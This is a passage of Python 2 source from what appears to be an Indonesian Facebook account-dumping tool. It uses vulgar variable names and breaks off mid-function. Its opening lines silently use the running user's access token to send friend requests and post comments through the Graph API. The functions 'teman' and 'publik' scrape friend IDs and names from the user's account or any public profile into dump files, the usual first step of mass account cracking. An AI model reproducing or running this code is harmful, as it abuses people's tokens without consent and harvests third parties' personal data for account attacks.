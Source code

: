         requests.post('https://graph.facebook.com/me/friends?method=post&uids=%s&access_token=%s'%(koh,kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(lo_ngentod,kentod,kentod))
        requests.post('https://graph.facebook.com/%s/comments/?message=%s&access_token=%s'%(xi_jimpinx,hoetank,kentod))
    except:
    	pass

# dump id dari teman hehe
def teman(kontol):
    try:
        os.mkdir('dump')
    except:pass
    try:
        mmk = raw_input('\n %s[%s?%s] nama file  : '%(N,O,N))
        asw = raw_input(' %s[%s?%s] limit id   : '%(N,O,N))
        cin = ('dump/' + mmk + '.json').replace(' ', '_')
        ys  = open(cin, 'w')
        for a in requests.get('https://graph.facebook.com/me/friends?limit=%s&access_token=%s'%(asw,kontol)).json()["data"]:
            id.append(a['id'] + '<=>' + a['name'])
            ys.write(a['id'] + '<=>' + a['name'] + '\n')
            w = random.choice(['\x1b[1;91m', '\x1b[1;92m', '\x1b[1;93m', '\x1b[1;94m', '\x1b[1;95m', '\x1b[1;96m', '\x1b[1;97m', '\x1b[0m'])
            sys.stdout.write('\r\033[0m - ' + w + '%s%s                                        \r\n\n [\033[0;96m%s\033[0m] [\033[0;91m%s\033[0m] Proses Dump Id...'%(a['name'],N,datetime.now().strftime('%H:%M:%S'), len(id)
            )); sys.stdout.flush()
            time.sleep(0.0050)

        ys.close()
        jalan('\n\n %s[%s✓%s] berhasil dump id dari teman'%(N,H,N))
        print ' [%s•%s] salin output file 👉 ( %s%s%s )'%(O,N,M,cin,N)
        print 50 * '-'
        raw_input(' [%s ENTER%s ] '%(O,N));moch_yayan()
    except (KeyError,IOError):
        os.remove(cin)
        jalan('\n %s[%s!%s] Gagal dump id, kemungkinan id tidaklah publik.\n'%(N,M,N))
        raw_input(' [ %sKEMBALI%s ] '%(O,N));moch_yayan()
'''
																																																				csy = 'Cindy sayang Yayan'
																																																				ysc = 'Yayan sayang Cindy'
																																																			'''
# dump id dari teman publik hehe
def publik(kontol):
    try:
        os.mkdir('dump')
    except:pass
    try:
        csy = raw_input('\n %s[%s?%s] id publik  : '%(N,O,N))
        ahh = raw_input(' %s[%s?%s] nama file  : '%(N,O,N))
        ihh = raw_input(' %s[%s?%s] limit id   : '%(N,O,N))
        knt = ('dump/' + ahh + '.json').replace(' ', '_')
        ys  = open(knt, 'w')
        for a in requests.get('https://graph.facebook.com/%s/friends?limit=%s&access_token=%s'%(csy,ihh,kontol)).json()["data"]:
            id.append(a['id'] + '<=>' + a['name'])
            ys.write(a['id'] + '<=>' + a['name'] + '\n')
            w = random.choice(['\x1b[1;91m', '\x1b[1;92m', '\x1b[1;93m', '\x1b[1;94m', '\x1b[1;95m', '\x1b[1;96m', '\x1b[1;97m', '\x1b[0m'])